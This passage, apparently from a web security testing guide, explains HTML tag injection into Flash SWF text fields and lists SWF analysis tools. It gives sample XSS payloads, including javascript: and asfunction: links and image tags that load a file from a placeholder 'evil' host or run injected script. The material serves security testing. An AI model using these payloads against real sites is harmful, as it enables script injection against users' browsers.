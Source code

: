 So if some part of text could be controlled by the tester, an `<a>` tag or an image tag could be injected resulting in modifying the GUI or a XSS attack on the browser.

Some attack examples with `<a>` tag:

- Direct XSS: `<a href='javascript:alert(123)'>`
- Call a function: `<a href='asfunction:function,arg'>`
- Call SWF public functions: `<a href='asfunction:_root.obj.function, arg'>`
- Call native static as function: `<a href='asfunction:System.Security.allowDomain,evilhost'>`

An image tag could be used as well:

```html
<img src='http://evil/evil.swf'>
```

In this example, `.swf` is necessary to bypass the Flash Player internal filter:

```html
<img src='javascript:evilcode//.swf'>
```

Since the release of Flash Player 9.0.124.0, XSS is no longer exploitable, but GUI modification could still be accomplished.

The following tools may be helpful in working with SWF:

- [Adobe SWF Investigator](https://labs.adobe.com/technologies/swfinvestigator/)
- [OWASP SWFIntruder](https://wiki.owasp.org/index.php/Category:SWFIntruder)
- [Decompiler – Flare](http://www.nowrap.de/flare.html)
- [Disassembler – Flasm](http://flasm.sourceforge.net/)
- [Swfmill – Convert Swf to XML and vice versa](https://www.swfmill.org/)

